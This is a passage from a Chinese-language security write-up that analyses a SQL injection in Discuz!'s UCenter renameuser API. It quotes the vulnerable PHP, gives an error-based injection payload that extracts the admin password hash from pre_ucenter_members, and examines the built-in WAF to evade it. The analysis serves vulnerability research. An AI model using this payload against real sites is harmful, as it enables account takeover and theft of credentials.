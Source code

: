 ```

		if(!C::t('common_member')->update($get['uid'], array('username' => $get[newusername])) && isset($_G['setting']['membersplit'])){
			C::t('common_member_archive')->update($get['uid'], array('username' => $get[newusername]));
		}

		loadcache("posttableids");
		if($_G['cache']['posttableids']) {
			foreach($_G['cache']['posttableids'] AS $tableid) {
				$tables[getposttable($tableid)] = array('id' => 'authorid', 'name' => 'author');
			}
		}

		foreach($tables as $table => $conf) {
			DB::query("UPDATE ".DB::table($table)." SET `$conf[name]`='$get[newusername]' WHERE `$conf[id]`='$get[uid]'");
		}
		return API_RETURN_SUCCEED;
	}
```

在函数的最下面，`$get[newusername]`被直接拼接进了update语句中。

但可惜的是，这里链接数据库默认使用mysqli，并不支持堆叠注入，所以我们没办法直接在这里执行update语句来更新密码，这里我们只能构造报错注入来获取数据。

```
$code = 'time='.time().'&action=renameuser&uid=1&newusername=ddog\',name=(\'a\' or updatexml(1,concat(0x7e,(/*!00000select*/ substr(password,0) from pre_ucenter_members where uid = 1 limit 1)),0)),title=\'a';
```

这里值得注意的是，DZ自带的注入waf挺奇怪的，核心逻辑在
```
\source\class\discuz\discuz_database.php line 375

if (strpos($sql, '/') === false && strpos($sql, '#') === false && strpos($sql, '-- ') === false && strpos($sql, '@') === false && strpos($sql, '`') === false && strpos($sql, '"') === false) {
			$clean = preg_replace("/'(.+?)'/s", '', $sql);
		} else {
			$len = strlen($sql);
			$mark = $clean = '';
			for ($i = 0; $i < $len; $i++) {
				$str = $sql[$i];
				switch ($str) {
					case '`':
						if(!$mark) {
							$mark = '`';
							$clean .= $str;
						} elseif ($mark == '`') {
							$mark = '';
						}
						break;
					case '\'':
						if (!$mark) {
							$mark = '\'';
							$clean .= $str;
						} elseif ($mark == '\'') {
							$mark = '';
						}
						break;
					case '/':
						if (empty($mark) && $sql[$i + 1] == '*') {
							$mark = '/*';
							$clean .= $mark;
```

[1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qg4p08znypnncy3fh1zvpzus/image.png
[2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qbubmlozli0mtqs5doc26k29/image.png
[3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rtc48lyjaannmn5wnovwd9b2/image.png
[4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/24tv518rdz5ders59zju3x2c/image.png